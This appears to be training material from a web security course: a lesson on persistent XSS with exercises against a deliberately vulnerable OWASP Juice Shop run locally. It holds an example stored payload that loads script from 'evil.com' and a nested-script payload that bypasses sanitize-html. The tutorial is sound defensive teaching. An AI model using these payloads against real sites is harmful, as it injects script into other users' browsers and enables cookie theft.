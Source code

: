 #+TITLE: Persistent XSS
* Ep-5: What is Persistent XSS
** Table Of Contents
- [[#ep-5-what-is-persistent-xss][Ep-5: What is Persistent XSS]]
  - [[#scope][Scope]]
  - [[#xss-types][XSS Types]]
  - [[#persistent-xss][Persistent XSS]]
  - [[#persistent-xss-vs-reflected-xss][Persistent XSS vs Reflected XSS]]
  - [[#assignment-scenario][Assignment Scenario]]
  - [[#assignment-1-persistent-xss][Assignment 1: Persistent XSS]]
  - [[#assignment-1-persistent-xss-answer][Assignment 1: Persistent XSS (Answer)]]
  - [[#assignment-2-xss-sanitization-issues][Assignment 2: XSS Sanitization Issues]]
  - [[#assignment-3-information-leakage][Assignment 3: Information Leakage]]
  - [[#assignment-3-information-leakage-answer][Assignment 3: Information Leakage (Answer)]]
  - [[#assignment-4-reconnaissance-through-npm-audit][Assignment 4: Reconnaissance Through Npm Audit]]
  - [[#assignment-4-recon-through-npm-audit-answer][Assignment 4: Recon Through Npm Audit (Answer)]]
  - [[#assignment-5-persistent-xss][Assignment 5: Persistent XSS]]
  - [[#assignment-5-persistent-xss-answer][Assignment 5: Persistent XSS (Answer)]]
  - [[#persistent-xss-summation][Persistent XSS Summation]]
  - [[#knowledge-dependency-tree][Knowledge Dependency Tree]]

** Scope
- What is Persistent XSS (Cross-Site Scripting)?
- Where are common locations for Persistent XSS?
- How can XSS defenses be exploited?
  - Live example via OWASP Juice Shop!
- Learn to leverage ~npm audit~ to check for node.js vulnerabilities
- Persistent XSS vs Reflected XSS
** XSS Types
- Persistent
  - Stored XSS
- Non-Persistent
  - Reflected XSS
  - DOM XSS
** Persistent XSS
- Typically stored in the database
  - username ~<script src='evil.com'></script>~
  - Also in local storage
- Very problematic when shared across multiple users
  - Ex: Chat application where ~username~ is sent to multiple clients
- Other high risk areas
  - Functionality that allows users to submit html markup
    - Web forums
  - Comments
** Persistent XSS vs Reflected XSS
- Persistent XSS
  - Much more dangerous
  - Can attack all users of a site
  - Doesn't have to involve an action from a user
- Reflected XSS
  - Often requires an action from the victim
    - Clicking on malicious link with XSS payload
      - Payload is reflected back to the user
  - Typically involves one victim
** Assignment Scenario
- Exploit a Persistent XSS flaw by taking advantage of a XSS defense
- Aside: All assignment instructions assume Linux/macOS
- OWASP Juice Shop
  - Intentionally vulnerable web app
  - https://github.com/securingthestack/juice-shop
    - ~persistent-xss-1~ branch
  - ~docker run --rm -p 3000:3000 securingthestack/juice-shop:persistent-xss-1~
** Assignment 1: Persistent XSS
1. /Try/ to obtain Persistent XSS within http://localhost:3000/#/contact
   - Port assumes that you leveraged the docker command
   - Input (http://localhost:3000/#/contact)
     - ~<script>alert("I have XSS")</script>Outside Text~ within the ~Comment~ field
     - Make sure to leave rating
   - Output
     - Within the ~Customer Feedback~ section within http://localhost:3000/#/about
2. Given the output in the ~Customer Feedback~ section, how is the application
   handling XSS attacks?
   - Within the context of this feature, why is this a bad practice?

** Assignment 1: Persistent XSS (Answer)
1. Instead of rejecting unexpected input, the application is sanitizing it
   - This is very difficult to implement properly
     - Hmm... How can this step be exploited?
2. Alert
   - If input is unexpected, fully reject it
     - There is no reason why html markup should be placed within the ~Comment~ field

** Assignment 2: XSS Sanitization Issues
- Given the application sanitizes the ~script~ tags within ~<script>alert("I
    have XSS")</script>~...
- Can you insert anything /around/ the ~script~ tags that would allow the XSS to continue?
- Lets explore how attackers could find this flaw
  - Answer will be within the final assignment

** Assignment 3: Information Leakage
1. Through the browser, view Juice Shop's ~package.json~
   - Unfortunately, this file is often easily available
   - Hint
     - ~app.use(express.static(applicationRoot))~

** Assignment 3: Information Leakage (Answer)
- http://localhost:3000/package.json
  - "This isn't a vulnerability!"
- Place ~package.json~ into a directory of your choice
  - You'll be leveraging it within the next assignment

** Assignment 4: Reconnaissance Through Npm Audit
1. Upgrade npm to npm@6+
   - ~npm install npm@latest -g~
2. ~cd~ into the directory with the ~package.json~
3. ~npm i --package-lock-only~
4. ~npm audit > audit.txt~
5. What vulnerability within ~sanitize-html~ can be leveraged to exploit
   Assignment 2?

** Assignment 4: Recon Through Npm Audit (Answer)
- ~sanitize-html~ doesn't sanitize recursively
  - https://nodesecurity.io/advisories/135
  - https://github.com/punkave/sanitize-html/issues/29

** Assignment 5: Persistent XSS
- Obtain persistent XSS within http://localhost:3000/#/about
- XSS Input
  - Within the ~Comment~ field of http://localhost:3000/#/contact
  - Leave rating

** Assignment 5: Persistent XSS (Answer)
- ~<<script>Foo</script>script>alert("XSS")</script>~
- Alternative that doesn't work
- ~<script<script>>alert("I stole your auth cookie")<</script>/script>~

** Persistent XSS Summation
- If input is unexpected, halt execution
  - Dont try to sanitize
- Exploitation process started with "harmless" information leakage
- ~Npm audit~ is your friend
- https://blog.github.com/2017-11-16-introducing-security-alerts-on-github/
- Persisted XSS could give attackers code execution on all of your users' browsers
** Knowledge Dependency Tree
